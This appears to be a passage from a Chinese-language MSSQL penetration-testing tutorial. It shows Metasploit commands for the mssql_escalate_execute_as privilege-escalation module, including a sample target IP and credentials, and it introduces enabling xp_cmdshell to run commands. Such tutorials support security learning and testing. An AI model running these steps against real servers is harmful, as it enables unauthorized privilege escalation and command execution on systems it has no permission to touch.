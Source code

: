 ### 模拟其他用户提权

```php
use auxiliary/admin/mssql/mssql_escalate_execute_as
set rhosts 192.168.3.130
set username test1
set password admin@123
exploit
```

![image.png](assets/1706232584-0f8cb4f2780dd4ff736866008ec89455.png)

# 使用 xp\_cmdshell 执行命令

### 启动 xp\_cmdshell

![image.png](assets/1706232584-d9a3f0b7a514e59361d59ce9337eea59.png)  